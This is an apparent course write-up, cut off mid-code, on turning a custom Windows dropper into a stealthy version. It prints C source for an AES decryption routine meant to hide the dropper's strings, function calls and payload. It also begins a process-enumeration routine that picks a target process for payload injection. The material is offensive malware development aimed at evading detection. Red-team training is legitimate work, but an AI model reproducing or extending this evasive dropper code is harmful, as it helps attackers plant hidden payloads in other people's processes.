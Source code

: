 Once you finished the course, reenz0h ask you to complete an assignment that starts with turn the custom dropper you wrote during the course into a stealthy version.
How could you do this achievement? reenz0h gives you some suggestion like encrypting all strings and obfuscate all function calls and payload usign AES encrypting algorithm. So let's start.

## the Dropper
The dropper has 3 basic function inside that are needed to make things working and to make the dropper more stealthy. The first funtion is the one needed to decrypt all the strings, function and payload encrypted with AES, we can call it AESDecrypt()

```c
int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        
        return 0;
}
```

The second function in preparatory to find the PE process to inject, the payload first needs to target a process for injection.
This is usually done by searching through processes by calling a trio of Application Program Interfaces (APIs): CreateToolhelp32Snapshot, Process32First, and Process32Next. CreateToolhelp32Snapshot is an API used for enumerating heap or module states of a specified process or all processes, and it returns a snapshot. Process32First retrieves information about the first process in the snapshot, and then Process32Next is used in a loop to iterate through them. After finding the target process, the function returns its pid.

```c
int Find(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
		hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
		
		if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
```